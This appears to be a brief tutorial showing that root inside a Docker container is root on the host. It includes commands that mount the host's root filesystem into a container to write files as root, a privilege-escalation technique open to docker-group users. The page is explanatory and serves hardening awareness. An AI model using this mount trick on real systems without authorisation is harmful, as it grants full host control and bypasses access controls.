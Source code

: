 # Root inside container is a root on host

1. Spawn a new container in interactive mode.

```bash
root@k8s:/tmp/archive# docker run --rm -it alpine sh
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

2. Run long running process inside container

```bash
sleep 100
```

3. Search for container under host processes (inside another terminal) by searching for a process running sleep command.

```bash
root@k8s:~# ps -fC sleep
UID          PID    PPID  C STIME TTY          TIME CMD
root       38061   38041  0 16:38 ?        00:00:00 sleep 100
```

So basically ROOT inside the container is ROOT on the host.

4. Why is this bad?

Let's say I'm inside docker group but I'm not root. I can just spawn a new container with root mounted inside container and I can change any file.

```bash
root@k8s:/# docker run --rm -it -v /:/tmp/root alpine sh
/ # touch /tmp/root/root/hiiamroot
/ # exit
root@k8s:/# ll /root/ | grep hiiam
-rw-r--r--  1 root root    0 Apr  2 17:21 hiiamroot
```
